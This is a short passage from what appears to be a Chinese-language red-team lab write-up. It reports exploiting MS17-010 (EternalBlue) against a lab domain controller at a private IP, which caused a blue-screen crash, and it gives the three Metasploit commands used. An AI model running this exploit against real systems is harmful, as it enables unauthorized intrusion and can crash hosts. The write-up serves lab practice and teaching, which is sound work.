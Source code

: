 4. 利用ms17-010进行攻击，域控主机的确存在ms17-010漏洞，但是利用后直接蓝屏了，很是尴尬

   ``` powershell
   use exploit/windows/smb/ms17_010_eternalblue
   set rhost 192.168.52.138
   exploit
   ```

   ![30.png](img/ATT&CK1/png30.png)
